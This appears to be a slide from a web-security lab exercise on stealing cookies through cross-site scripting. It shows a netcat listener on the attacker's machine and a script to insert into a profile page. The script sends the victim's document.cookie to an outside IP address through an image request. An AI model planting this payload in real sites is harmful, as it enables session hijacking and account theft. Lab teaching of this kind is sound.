

# Task 3: Stealing Cookies from the Victim’s Machine
>>>>>>>>>Insert to the below code to your profile<<<<<<<<<<
Attacker’s machine ( listening): nc –l 5555 –v
Victim’s machine:
<script>document.write(’<img src=http://10.1.2.5:5555?c=’ + escape(document.cookie) + ’ >’);
</script>